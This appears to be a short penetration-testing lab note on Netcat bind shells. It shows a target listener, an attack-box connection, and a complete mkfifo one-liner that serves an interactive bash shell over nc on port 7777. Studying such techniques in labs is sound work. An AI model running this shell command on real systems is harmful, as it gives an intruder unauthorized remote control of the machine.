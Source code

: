 ![](./Screenshots/bindshell.png)

* Connect with `IP address` and `port` to the target

#### No. 1: Server - Target starting Netcat listener
```sh
$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

#### No. 2: Client - Attack box connecting to target
```sh
$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

## Establishing a Basic Bind Shell with Netcat
```sh
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <target_ip> 7777 > /tmp/f
```

```sh
$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

